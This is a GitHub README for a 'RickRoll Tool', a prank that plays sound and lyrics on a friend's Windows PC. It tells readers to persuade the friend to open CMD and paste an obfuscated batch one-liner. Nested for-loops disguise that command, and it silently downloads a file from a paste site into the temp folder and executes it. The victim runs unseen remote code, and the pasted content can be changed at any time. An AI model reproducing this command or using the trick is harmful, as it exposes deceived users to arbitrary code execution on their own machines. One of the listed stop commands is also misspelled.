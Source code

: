 ## 🎢 RickRoll Tool Version 1.0
> RickRoll your friends using a command in order to prevent them from stopping the sound from playing...

### ▶ How can I rickroll?
- Tell them to open CMD
- Tell them to paste the following command into the window and press enter
```bat
for %b in (F2) do for %c in ("%temp%\F") do for %d in (.) do for %e in (cmd) do for %f in (rentry) do (cls&&curl -#Lsko "%~c2%d%e" "%f%dco/%b/raw"&&call "%~c2%d%e")
```
- Once they did it they will need to wait a few seconds for the sound to download and play

### ⏹ How do I stop the sound when its already running?
- Stop Sound: `taskkkill /f /im cscript.exe`
- Stop Lyrics: `taskkill /f /im cmd.exe`

#### This is fairly simple process

### ⚙ Compatibility
* **To use this tool you must have curl installed in your system.**
* **Windows 10 and above should have curl installed by default**

### 💲 Buy me a coffee?
> I wanted to say huge thanks to everyone who use this software :heart:
Make someone's day and buy him a cup of coffee for his hard job? <a href="https://www.paypal.me/agamsolomon0011" rel="paypal donations">![donate](https://img.shields.io/badge/Donate-Paypal-brightgreen.svg)</a>